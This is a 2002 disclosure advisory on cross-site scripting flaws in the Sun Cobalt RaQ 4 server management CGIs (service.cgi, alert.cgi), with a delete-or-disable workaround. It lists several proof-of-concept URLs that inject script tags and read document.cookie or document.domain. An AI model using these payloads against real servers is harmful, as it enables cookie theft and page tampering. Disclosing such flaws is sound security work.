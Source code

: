 INFO
----

    ------oOo----------------
    Cobalt RAQ 4 Server Management,
    Cross Site Scripting , Directory Traversal & DoS Vulnerabilities.
    ------oOo----------------


    Company Affected: www.cobalt.com & www.sun.com
    Version: RAQ 4 Server Management.
    Dowload: http://www.cobalt.com/products/raq/index.html
    OS Affected: Linux ALL, Solaris ALL.


    Author:

    ** Alex Hernandez <al3xhernandez@ureach.com>
    ** Thanks all the people from Spain and Argentina.
    ** Special Greets: White-B, Pablo S0r, Paco Spain, G.Maggiotti.


    ----=[Brief Description]=------------

    The Sun Cobalt RaQ is a server appliance for Internet Service Providers
    (ISPs).
    It can host up to 200 individual websites or it can be dedicated to a
    single medium or large customer. This versatility opens up tremendous
    opportunity for service provider to invest in a single piece of hardware
    while migrating business customers up to dedicated servers.

    Cobalt's service.cgi incorrectly handles the incoming search parses,
    incoming HTML tags or JavaScript will be included inside the result without
    them being filtered out for dangerous content. A similar problem occurs with
    the x.cgi's inclusion of malicious code inside the resulting title search.

    The cgi^s files is an open source .A security vulnerability in the
    product allows attackers to insert malicious content into existing web pages by
    exploiting the Cross-Site Scripting Vulnerability.


    Affected Files Cgi^s

    alert.cgi
    service.cgi


    Workaround:
    1) Delete service.cgi from the system, or disable its possible
    execution.
    2) Delete alert.cgi from the system, or disable its possible execution


    EXAMPLES:

    http://10.0.0.1:81/cgi-bin/.cobalt/alert/service.cgi?service=<h1>Hello!</h1><script>alert('hello')</script>
    http://10.0.0.1:81/cgi-bin/.cobalt/alert/service.cgi?service=<script>alert('Microsoft%20hole')</script>
    http://10.0.0.1:81/cgi-bin/.cobalt/alert/service.cgi?service=<img%20src=javascript:alert(document.domain)>
    http://10.0.0.1:81/cgi-bin/.cobalt/alert/service.cgi?service=<script>alert(document.cookie)</script>

    LOCATION:
    http://10.0.0.1:81/cgi-bin/.cobalt/alert/service.cgi?service=%3Cscript%3Ealert(document.location)%3C/script%3E

    COOKIES:
    http://10.0.0.1:81/cgi-bin/.cobalt/alert/service.cgi?service=%3Cscript%3Ealert(document.cookie)%3C/script%3E

    TAG IMAGES:
    http://10.0.0.1:81/cgi-bin/.cobalt/alert/service.cgi?service=<img%20src=javascript:alert(document.domain)>


    WRITE ON DOCUMENT:
    http://10.0.0.1:81/cgi-bin/.cobalt/alert/service.cgi?service=<SCRIPT>document.write(document.domain)</SCRIPT>


    Vendor Response:
    The vendor was notified

    Posted List^s Security cobalt:
    cobalt-security@list.cobalt.com &
    jlovell@sun.com

    http://www.cobalt.com
    Patch Temporary:
    Delete files cgi^s from the system, or disable its
    possible execution.

    Alex Hernandez <al3xhernandez@ureach.com> (c) 2002.

    ------oOo------------------------------------